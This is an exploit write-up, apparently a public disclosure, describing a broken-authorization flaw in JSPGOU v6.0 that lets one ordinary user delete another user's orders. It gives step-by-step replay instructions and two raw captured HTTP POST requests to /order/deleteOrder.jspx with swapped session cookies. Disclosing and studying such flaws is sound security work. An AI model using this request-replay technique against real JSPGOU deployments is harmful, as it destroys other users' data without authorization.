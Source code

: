 ## Information

```c
Exploit Title:JSPGOU v6.0-Ultra vires order deletion
Exploit date:02.06.2021
Exploit Author:Al1ex@Heptagram
Vendor Homepage:https://www.jeecms.com/
Affect Version:JSPGOU v6.0
Description:JSPGOU v6.0 foreground user has a horizontal ultra vires vulnerability. Ordinary users can delete orders from other users.
```

## How to Exploit

Step  1：Register two users

- testabc/123456
- test111/123456

Step  2：Use testabc user to create order information. Then click delete order and use burpsuite to capture the package.

![delete](img/delete.png)

```javascript
POST /order/deleteOrder.jspx HTTP/1.1
Host: 192.168.174.144:8080
Content-Length: 12
Accept: application/json, text/javascript, */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.174.144:8080
Referer: http://192.168.174.144:8080/order/myorder.jspx
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_eaa57ca47dacb4ad4f5a257001a3457c=1605675257,1605704689,1605871061,1606205262; JSESSIONID=5259ED5257037CA36DBAAE2BA8A7A635; clientlanguage=zh_CN
Connection: close

orderId=1208
```

Step 3：Drop the request packet and refresh the page to ensure that the order is not deleted

![drop](img/drops.png)

Step 4：In another browser, use test111 to log in to the system to get its cookie information

![cookies](img/cookies.png)

Step 5：Using the cookie of the test111 user to resend the order cancellation request packet of the testabc user, it is found that the order of the testabc user can be successfully cancelled beyond the authority

```javascript
POST /order/deleteOrder.jspx HTTP/1.1
Host: 192.168.174.144:8080
Content-Length: 12
Accept: application/json, text/javascript, */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.174.144:8080
Referer: http://192.168.174.144:8080/order/myorder.jspx
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_eaa57ca47dacb4ad4f5a257001a3457c=1622555281; JSESSIONID=1C4C7C15CA3148D21B08EB8F97E8A89C; clientlanguage=zh_CN
Connection: close

orderId=1208
```

![success](img/suc.png)

![ok](img/ok.png)

## Reference

https://www.jeecms.com/

